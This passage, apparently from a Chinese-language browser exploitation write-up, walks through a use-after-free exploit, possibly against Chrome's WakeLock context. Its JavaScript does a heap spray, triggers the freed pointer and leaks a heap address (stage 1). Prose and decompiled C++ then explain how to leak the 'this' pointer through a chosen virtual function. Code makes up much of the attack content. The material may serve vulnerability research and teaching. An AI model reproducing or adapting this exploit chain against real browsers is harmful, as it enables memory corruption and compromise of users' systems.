```javascript
            offset += kWakeLockContextOffset;

            let provider_ptr = await getFreedPtr();
            let heap = await spray(data);
            await triggerUAF(provider_ptr);
            results = await Promise.all(heap.map((a) => a.readQword(offset)));
            let allocation;
            let wakeLockContextAddr;
            for (var i = 0; i < results.length; i++) {
                if (results[i] != 0) {
                    wakeLockContextAddr = results[i];
                    allocation = heap[i];
                    print("\t[*] overlapped allocation index: " + i);
                }
            }
            if (wakeLockContextAddr == undefined) {
                print("\t[!] stage1 failed.. retrying");
                continue;
            }

            print("\t[*] stage1 success: " + wakeLockContextAddr.toString(16));
```

#### 泄露this

在上一步中，我们已经拿到了一个堆地址，而且知道该堆地址+8偏移处有我们的this指针，我们只要想办法利用它泄露处this指针就好。

泄露`this`的虚函数的形式如下：

```cpp
void VirtualFunction() override {
    some_member_ = other_member_.some_attr;
}
```

这里选择的虚函数是`DictionaryIterator::Start`：

```cpp
__int64 __fastcall anonymous_namespace_::DictionaryIterator::Start(__int64 this)
{
  __int64 v1; // rax
  __int64 result; // rax

  v1 = *(_QWORD *)(this + 32);			// 取得堆地址
  if ( !*(_DWORD *)(v1 + 24) )
  {
    __debugbreak();
    BUG();
  }
  result = *(_QWORD *)(v1 + 40);
  *(_QWORD *)(this + 24) = result;		// 将堆地址0x40偏移处的地址写入到this中
  return result;
}
```
